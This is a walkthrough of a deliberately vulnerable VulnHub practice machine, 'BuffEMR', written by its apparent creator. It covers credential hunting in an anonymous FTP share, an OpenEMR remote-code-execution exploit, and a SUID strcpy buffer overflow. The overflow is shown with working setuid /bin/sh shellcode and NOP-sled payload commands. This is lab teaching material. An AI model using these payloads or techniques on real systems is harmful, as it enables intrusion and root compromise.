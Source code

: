 ```yaml
---
layout: post
title: BuffEMR Walkthrough
---
```


![](/images/2021-12-01-BuffEmr/0.png)


This is a walk through of "BuffEMR" machine created by myself and is available here for hacking: [BuffEmr](https://www.vulnhub.com/entry/buffemr-101,717/). 

This machines have been purposefully created for practicing penetration testing skills. I have been getting a lot of twitter DMs for hint and helps to PAWN this machine, so I decided to release the walkthrough !


Firstly, we will start with Nmap:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 09:44 EDT
Nmap scan report for 10.0.0.63
Host is up (0.0085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 0        0            4096 Jun 21 14:21 share
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.0.0.154
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 92:4c:ae:7b:01:fe:84:f9:5e:f7:f0:da:91:e4:7a:cf (RSA)
|   256 95:97:eb:ea:5c:f8:26:94:3c:a7:b6:b4:76:c3:27:9c (ECDSA)
|_  256 cb:1c:d9:56:4f:7a:c0:01:25:cd:98:f6:4e:23:2e:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds

```

As we can see, there are three ports open (http, ftp, ssh).

We will check the webapp first:
![](/images/2021-12-01-BuffEmr/1.png)

It is running openEMR, If you try some default credentials, it won’t work!

For now, we will login into FTP as we can use anonymous login:

![](/images/2021-12-01-BuffEmr/2.png)

The FTP share contains source code for openemr, let’s try and find out any interesting information’s here by searching for sensitive information (eg: grep -ri password .
  or grep -ri key .)


The first thing I found was a pdfkey for something:

![](/images/2021-12-01-BuffEmr/3.png)

The second interesting thing I found was a file under /tests that contains admin creds: 

![](/images/2021-12-01-BuffEmr/4.png)

Now let’s try and use this on openemr:

![](/images/2021-12-01-BuffEmr/5.png)

Now we have access, and we know the version, we can look for exploits in exploitDB.

After looking for exploits, I found multiple vulnerabilities for this version of OpenEMR including remote code execution.

Reference: [Exploit](https://www.exploit-db.com/exploits/45161)


Run the python file with a netcat listening on port 1337:

![](/images/2021-12-01-BuffEmr/6.png)

Now we have access to the box:


![](/images/2021-12-01-BuffEmr/7.png)


![](/images/2021-12-01-BuffEmr/8.png)

We don’t have access to user folder, but we do have access to /var where I found a password protected zip file:

![](/images/2021-12-01-BuffEmr/9.png)

Now I am going to transfer the file to my local machine and use the pdfkey found earlier to see what is in it:

![](/images/2021-12-01-BuffEmr/10.png)


![](/images/2021-12-01-BuffEmr/11.png)

The zip file contains the password which can be used to ssh as buffemr:

![](/images/2021-12-01-BuffEmr/12.png)


The first thing I do to escalate privilege is to see the current user AKA.BuffEMR have the rights to run anything as sudo, which in this case we does not have:


![](/images/2021-12-01-BuffEmr/13.png)

Now after some enumeration, I found an executable owned by root (suid bit set) in the /opt directory:


![](/images/2021-12-01-BuffEmr/14.png)

I ran strings command on the binary and found out that there is a function the binary use called “strcpy”.  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk.


![](/images/2021-12-01-BuffEmr/15.png)

Maybe, we will try to over flow the buffer to run a shell code to get root?

We will use gdb for this:


![](/images/2021-12-01-BuffEmr/16.png)


The hex of A is \x41, at 520 it overrides EIP and at 510 it doesn’t override EIP, so we need to find the magic number that overrides EIP without going over, between 520 and 510:

After few tries, I found out that 516 is the magic number:

![](/images/2021-12-01-BuffEmr/17.png)

Now, we need a shell code:

Refer: [shell-code-priv-esc]( https://github.com/san3ncrypt3d/shell-code-priv-esc)

This is the shell code I am going to use:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

```

Let’s find out the length of the shell code:



![](/images/2021-12-01-BuffEmr/18.png)

Our shell code is 55, we needed 516 A’s to override EIP, and 4 bytes is return address, so the buffer size will be 516-4 = 512

So, the plan is to use NOPs or no operations followed by shell code, to get a shell.

How many NOPs ?

512 – 55 = 457.

Note: NOP is \x90 in hex

So, we are going to run this:

```
python -c “print ‘\x90’ * 457 + ‘\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh’ + ‘\x41\x41\x41\x41’”
```



We don’t know the return address yet, so I am going to use 41 (A’s):


![](/images/2021-12-01-BuffEmr/19.png)

Now use the command to examine the memory:
```
x/300wx $esp
```

![](/images/2021-12-01-BuffEmr/20.png)

As we can see, the 0x90 is our NOP, so we can use any of the return address of the NOP to get our shell executed after:



Let’s run this:

```
run $(python -c "print '\x90'*459 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xc0\xd6\xff\xff'")
```

After execution, we get a shell but inside gdb it still says we don’t have the elevated privilege, so exit out of gdb and run the same command :

![](/images/2021-12-01-BuffEmr/21.png)



Now we can access the root flag as we escalated our privilege :


![](/images/2021-12-01-BuffEmr/22.png)

This box require a person to utilize his/her web application exploitation skills, enumeration, and basic reverse engineering skills to gain foothold, and to abuse and then escalate privileges to root.


